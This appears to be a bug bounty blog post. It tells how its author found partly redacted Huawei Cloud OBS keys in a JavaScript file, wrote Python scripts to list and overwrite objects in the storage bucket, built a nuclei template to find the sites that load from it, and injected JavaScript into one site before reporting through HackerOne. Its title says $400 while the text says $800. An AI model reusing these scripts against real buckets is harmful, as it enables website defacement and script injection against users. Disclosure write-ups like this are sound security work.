 ```yaml
---
title: "Exposed secret keys leading to multiple site defacement for $400"
date: 2025-02-21T11:37:50+08:00
draft: false
summary: Finding secret keys in a JS file—this is like finding money in a trashcan. Yeah that's a JavaScript is trash joke.
---
```

![leaked keys](/leaked-obs-keys.jpg)
> Finding secret keys in a JS file—this is like finding money in a trashcan. Yeah that's a JavaScript is trash joke.

I found exposed secret keys in a inconspicious JavaScript file at `river.[redacted].com`, which could allow a malicious actor to deface multiple websites of a entertainment platform in the Philippines and I got $800 out of it.

---

Doing my usual poking-around after work, I found this seemingly new, but otherwise normal-looking website of my target.

I checked the website out, did my usual fuzzing and find nothing. I couldn't even tell what the website does—I couldn't get past the login screen.

I inspected the source code, opened its JS files, and checked for any API calls, and I found nothing of interest. Then I did a global text search for `_key`, just in case some lazy developer didn't bother configuring their secret keys properly.

```plaintext
var define_import_meta_env_default$1 = {
...
	VITE_OBS_BUCKET_NAME: "dl-patch-river-com",
	VITE_OBS_PATH_PREFIX: "mgames/nhk/common/events/",
	VITE_OBS_ACCESS_KEY: "ATXC1DVXV2[redacted]",
	VITE_OBS_SECRET_KEY: "EQnZvv1HfpEoT62[redacted]",
...
};
```
> _Welp, well I be damned_

Interesting. But I have no idea what these keys are for. Looking up "OBS", [Huawei Cloud OBS](https://www.huaweicloud.com/intl/en-us/product/obs.html) turns up.

## Huawei Cloud Object Storage Service

[**Huawei Cloud OBS**](https://www.huaweicloud.com/intl/en-us/product/obs.html)—is a file bucket storage service by Huawei Cloud. It's basically an alternative to Amazon S3 and Google Cloud Storage.

They also have a Python SDK `esdk-obs-python`, which should make it easier for me to write a Python exploit script.

## Testing the leaked keys

### Testing read access
I wrote a simple Python script that lists down all of the contents of the bucket:

```py
# obs.py
from obs import ObsClient


if __name__ == "__main__":
    access_key = "ATXC1D[redacted]"
    secret_key = "EQnZvv1HfpEoT6[redacted]"
    bucket = "dl-patch-[redacted]-com"
    server = "https://obs.ap-southeast-3.myhuaweicloud.com/"
    region = "ap-southeast-3"

    prefix = "mgames/nhk/common/events/"
    
    obsClient = ObsClient(
        access_key_id=access_key,
        secret_access_key=secret_key,
        server=server
    )

    objects = obsClient.listObjects(bucket)
    for obj in objects.body.contents:
        print(obj.url)
    
    obsClient.close()
```

Running the script, I was able to fetch the contents of the bucket which contains 5,000+ objects:

```plaintext
https://dl.[redacted].com/mgames/nhk/common/events/2023/
https://dl.[redacted].com/mgames/nhk/common/events/2023/css/
https://dl.[redacted].com/mgames/nhk/common/events/2023/css/bootstrap-grid.css
https://dl.[redacted].com/mgames/nhk/common/events/2023/css/bootstrap-grid.css.map
https://dl.[redacted].com/mgames/nhk/common/events/2023/css/bootstrap-reboot.css
https://dl.[redacted].com/mgames/nhk/common/events/2023/css/bootstrap-reboot.css.map
https://dl.[redacted].com/mgames/nhk/common/events/2023/css/bootstrap-utilities.css
https://dl.[redacted].com/mgames/nhk/common/events/2023/css/bootstrap-utilities.css.map
https://dl.[redacted].com/mgames/nhk/common/events/2023/fonts/
https://dl.[redacted].com/mgames/nhk/common/events/2023/fonts/AgencyFB-Black.eot
https://dl.[redacted].com/mgames/nhk/common/events/2023/fonts/AgencyFB-Black.svg
https://dl.[redacted].com/mgames/nhk/common/events/2023/fonts/AgencyFB-Black.ttf
https://dl.[redacted].com/mgames/nhk/common/events/2023/fonts/AgencyFB-Black.wof
...[redacted for brevity]...
```
> _The keys worked!_

### Testing write access
I adjusted the script to upload an HTML file to the bucket

```py
    target_file = f"{prefix}/tedminfosec.html"
    local_file = "./tedminfosec.html"
    print(f"Uploading {local_file} to {target_file}")
    obsClient.putFile(bucket, target_file, local_file)
```

And sure enough, my HTML file was uploaded to the bucket!

![html file](/leaked-obs-keys-html-file.png)

## Important observation
- I noticed that I was able to _update_ my file by running the script again. **This means I could potentially overwrite any item in the bucket.**

## Understanding the potential impact

Knowing that my target has _thousands_ of domains, I asked myself:
- _Could it be possible that this bucket serves static files for some of these websites?_
- _Is there a way for me to inject arbitrary JavaScript code into these websites?_

Analyzing the leak, a notable configuration setting is the `VITE_OBS_PATH_PREFIX`, which has the value `mgames/nhk/common/events/`.

This means I have to **identify all websites that contain `mgames/nhk/common/events/` in their source code.** To do that, I used [nuclei](https://github.com/projectdiscovery/nuclei) with a custom template.

## Writing a custom nuclei template

Nuclei is a fast, customizable vulnerability scanner but has a somewhat bad rap in the bug bounty community because a lot of researchers get dupes from it. That's simply bound to happen if everyone uses the same templates!

I think nuclei is best used for low-hanging bugs and _custom templates_ that you write yourself. Writing effective custom templates, however, requires a deep understanding of the target.

Here's my custom template to identify the websites that use the compromised storage bucket:

```yaml
id: obs-leak 
info:
  name: OBS Leak
  author: tedm.infosec
  severity: info
requests:
  - method: GET
    path:
      - "{{BaseURL}}/"
    matchers:
      - type: word
        words: 
          - "mgames/nhk/common/events/"
        part: body
```

With the list of live subdomains of `[redacted].com` in `http.txt`, I pipe it into `nuclei` like so:

```plaintext
cat http.txt | nuclei -t ~/custom-nuclei-templates/adhoc/tmp.yaml
                     __     _
   ____  __  _______/ /__  (_)
  / __ \/ / / / ___/ / _ \/ /
 / / / / /_/ / /__/ /  __/ /
/_/ /_/\__,_/\___/_/\___/_/   v3.1.10

                projectdiscovery.io

[WRN] Found 1 templates loaded with deprecated protocol syntax, update before v3 for continued support.
[INF] Current nuclei version: v3.1.10 (outdated)
[INF] Current nuclei-templates version: v10.1.2 (latest)
[WRN] Scan results upload to cloud is disabled.
[INF] New templates added in latest release: 52
[INF] Templates loaded for current scan: 1
[WRN] Executing 1 unsigned templates. Use with caution.
[INF] Targets loaded for current scan: 6004
[obs-leak] [http] [info] https://console.df.[redacted].com/
[obs-leak] [http] [info] https://voting.df.[redacted].com/
[obs-leak] [http] [info] https://members.[redacted].com/
[obs-leak] [http] [info] https://connect.16273.[redacted].com/
...[redacted for brevity]...
```

## Running arbitrary JavaScript in one of their websites
I chose one seemingly unimportant website from the list of websites detected by `nuclei`. Then I identified the JS file hosted from the bucket, updated its code so it prints out `hello from tedminfosec` in the console:

![proof of concept](/leaked-obs-keys.PNG)
> _It works._

## Responsible disclosure
Now that I have a good proof-of-concept to show that I compromised their website, I submitted a report detailing my exploit through their HackerOne of the company. A few weeks later I receive a reply:

![reward](/leaked-obs-keys-reward.PNG?1)

## Takeaways
- Developers _always_ make mistakes, capitalize on that.
- Knowing how to write your own `nuclei` templates can be incredibly useful.
- A bit of Python can help in writing exploits.
- Mapping the attack surface of a target is crucial for successful attacks.
